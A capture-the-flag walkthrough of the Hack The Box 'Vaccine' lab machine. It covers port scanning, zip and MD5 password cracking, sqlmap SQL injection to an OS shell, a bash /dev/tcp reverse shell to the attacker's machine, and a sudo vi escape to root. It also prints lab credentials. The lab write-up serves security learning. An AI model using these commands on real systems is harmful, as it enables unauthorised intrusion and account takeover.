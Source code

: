 # Vaccine
The 3rd box of the Starting Point - explores the concepts of cracking passwords/hashes and SQL Injection.

![Vaccine](../Images/htb_vaccine_1.png)

**Tools: nmap, zip2john, john, hash-identifier, unzip, sqlmap.**

*This box doesn't have a user flag, only the root flag.*

We begin with the nmap scan: 
> ports=$(nmap --min-rate=1000 -T4 -p- 10.10.10.46 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)  
> nmap -sC -sV -T4 -p$ports 10.10.10.46 -oG vaccine_scan

![Vaccine](../Images/htb_vaccine_2.png)

Ports 21, 22 and 80 are open. Using the credentials gathered in the previous box 'Oopsie', we can access the ftp server:
> ftp 10.10.10.46  
> ftpuser  
> mc@F1l3ZilL4

![Vaccine](../Images/htb_vaccine_3.png)

There's a 'backup.zip' file that we can download, but we're unable to extract it because it is password-protected.   
We can use the tool zip2john to extract its hash and then john to crack it:
> zip2john backup.zip > file_hash  
> john file_hash -w=/usr/share/wordlists/rockyou.txt

![Vaccine](../Images/htb_vaccine_4.png)

We are able to find the password for the zip file:  
741852963  
Next up, we can unzip it to see its contents: 
> unzip backup.zip

Reading the 'index.php' reveals us a hardcoded password hash.

![Vaccine](../Images/htb_vaccine_5.png)

Using hash-identifier we can see that it is a MD5 hash, so we can use [Crackstation](https://crackstation.net/) to get the clear-text password.
> 2cb42f8734ea607eefed3b70af13bbd3  
> qwerty789

![Vaccine](../Images/htb_vaccine_6.png)

Accessing the webpage for this IP we can see a login form, and with the just-found password we can attempt to login using some common usernames, so we're able to access using 'admin'.

![Vaccine](../Images/htb_vaccine_7.png)

Some quick tests reveal that this page might be vulnerable to SQL Injection (SQLi).

![Vaccine](../Images/htb_vaccine_8.png)

We can use sqlmap to test this and then exploit it. First we need to copy our session cookie from the browser dev-tools (F12), storage tab:

![Vaccine](../Images/htb_vaccine_9.png)

> sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=\<yourSessionID>" 

The above command will reveal that the target is vulnerable to SQLi. So we can run the command below to gain a shell: 
> sqlmap -u "http://10.10.10.46/dashboard.php?search=" --cookie="PHPSESSID=\<yourSessionID>" --os-shell

![Vaccine](../Images/htb_vaccine_10.png)

Now in our box we can start a netcat listening session, then start a reverse shell in the target box:
> nc -vnlp 9003
> bash -c 'bash -i >& /dev/tcp/\<youtTun0IP>/9003 0>&1'

![Vaccine](../Images/htb_vaccine_11.png)

As mentioned before, there's no 'user' flag in this box, so the next step is to find a way to escalate our privileges to grab the 'root' flag.  
Now we need to perform some enumeration. At the '/var/www/html' we can find the 'dashboard.php' file, and once again we're able to find some hardcoded sensitive information for our user 'postgres':
> P@s5w0rd!

![Vaccine](../Images/htb_vaccine_12.png)

Now we need to spawn a fully interactive shell to check the user's permissions, prividing the password we've just found:
> SHELL=/bin/bash script -q /dev/null  
> sudo -l

![Vaccine](../Images/htb_vaccine_13.png)

Sudo -l shows us that we can run '/bin/vi /etc/postgresql/11/main/pg_hba.conf' with sudo permissions: 
> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

Once inside Vi we can run the following command to exploit the elevated privileges: 
> Press Esc then  
> :!/bin/bash

And then you can read the root.txt file: 
> cat /root/root.txt

![Vaccine](../Images/htb_vaccine_14.png)

**Thats it, another box pwned!**  
Thanks for reading and keep hacking!
